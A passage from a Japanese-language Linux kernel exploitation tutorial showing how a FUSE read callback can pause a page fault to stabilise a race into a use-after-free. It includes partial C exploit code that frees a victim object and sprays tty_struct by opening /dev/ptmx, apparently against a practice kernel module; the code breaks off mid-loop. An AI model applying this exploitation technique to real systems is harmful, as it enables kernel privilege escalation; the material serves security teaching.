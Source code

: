  <img src="img/fuse_uafr.png" alt="FUSEによるUse-after-Free" style="width:720px;">
</center>

userfaultfdのときとの違いは、ページフォルト発生時にFUSE経由でハンドラが呼ばれるという点だけです。実際に、これを使ってRaceを安定化させてみましょう。
```c
cpu_set_t pwn_cpu;
char *buf;
int victim;

...

static int read_callback(const char *path,
                         char *buf, size_t size, off_t offset,
                         struct fuse_file_info *fi) {
  static int fault_cnt = 0;
  printf("[+] read_callback\n");
  printf("    path  : %s\n", path);
  printf("    size  : 0x%lx\n", size);
  printf("    offset: 0x%lx\n", offset);

  if (strcmp(path, "/pwn") == 0) {
    switch (fault_cnt++) {
      case 0:
        puts("[+] UAF read");
        /* [1-2] `blob_get`によるページフォルト */
        // victimを解放
        del(victim);

        // tty_structをスプレーし、victimの場所にかぶせる
        int fds[0x10];
        for (int i = 0; i < 0x10; i++) {
          fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
```

[^1]: ユーザー空間で仮想的にキャラクタデバイスを登録するCUSEという仕組みもあります。